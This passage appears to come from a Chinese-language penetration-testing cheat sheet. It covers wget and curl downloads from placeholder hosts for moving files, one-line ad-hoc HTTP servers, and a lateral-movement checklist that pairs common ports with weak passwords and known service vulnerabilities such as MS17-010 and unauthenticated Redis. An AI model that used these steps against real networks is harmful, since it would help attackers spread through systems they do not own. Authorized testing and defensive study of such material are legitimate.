  `wget http://site.com/1.rar -O 1.rar`

* curl

  `curl http://domain.com/1.rar -o 1.rar`

##### 2.简易服务器

* python2

  `python -m SimpleHTTPServer 8080`

* python3

  `python -m http.server 8080`

* busybox

  `busybox httpd -f -p 8000`

* php

  `php -S 0.0.0.0:8080`

* ruby

  `ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 1337, :DocumentRoot => Dir.pwd).start'``ruby -run -e httpd . -p 1337`

#### 3.4横向移动

##### 1.端口服务及利用方式

```bash
弱口令
22 ssh
445 smb
1433 MSSQL 
1521 Oracle 
3306 MySQL
3389 rdp
5432 PostgreSQL 
50000 DB2

web服务及组件漏洞（struts thinkphp jboss ganglia zabbix 各OA）
80 web 
80-89 web 
8000-9090 web

服务漏洞
445 ms08067/ms11058/ms17010等 
873 Rsync未授权 
5984 CouchDB http://xxx:5984/_utils/ 
6379 redis未授权 
7001,7002 WebLogic默认弱口令，反序列 
9200,9300 elasticsearch 参考WooYun: 多玩某服务器ElasticSearch命令执行漏洞 
11211 memcache未授权访问 
27017,27018 Mongodb未授权访问 
50000 SAP命令执行 
50070,50030 hadoop默认端口未授权访问
```
